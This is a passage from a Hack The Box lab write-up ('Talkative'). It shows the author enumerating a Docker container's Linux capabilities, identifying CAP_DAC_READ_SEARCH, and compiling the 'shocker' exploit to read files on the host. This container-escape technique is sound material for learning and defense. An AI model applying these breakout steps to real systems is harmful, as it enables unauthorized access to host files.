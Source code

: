 Nice! I'm `root` on Docker container `172.17.0.3`!

### `172.17.0.3` Docker root to host `root`

Again, enumerate the Docker container and see what's interesting to us.

**Capabilities:**
```shell
capsh --print
/bin/bash: line 17: capsh: command not found
```

Hmm... There's no `capsh`, and we couldn't check the capabilities of the container.

Luckily, there's another way.

**According to [this StackOverflow post](https://stackoverflow.com/questions/35469038/how-to-find-out-what-linux-capabilities-a-process-requires-to-work), we can view the capabilities via:**
```shell
cat /proc/1/status | grep Cap
CapInh:	0000000000000000
CapPrm:	00000000a80425fd
CapEff:	00000000a80425fd
CapBnd:	00000000a80425fd
CapAmb:	0000000000000000
```

**And:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:35:11(HKT)]
└> capsh --decode=00000000a80425fd
0x00000000a80425fd=cap_chown,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
```

Nice!

**Then, according to [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#capabilities-abuse-escape), we can abuse the capabilities to escape the Docker container!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812183957.png)

By checking the capabilities, **there's a capability called `CAP_DAC_READ_SEARCH`!**

**Next, again from [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search), we can use an exploit called shocker to read arbitrary files on the host machine!** 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812184229.png)

**Dynamically compile the shock exploit:** 
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:43:28(HKT)]
└> nano shocker.c
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:43:33(HKT)]
└> gcc shocker.c -o shocker
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:44:17(HKT)]
└> file shocker
shocker: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d014a2c1e6fb7cb434e5d0d472015f17cb9a4757, for GNU/Linux 3.2.0, not stripped
```

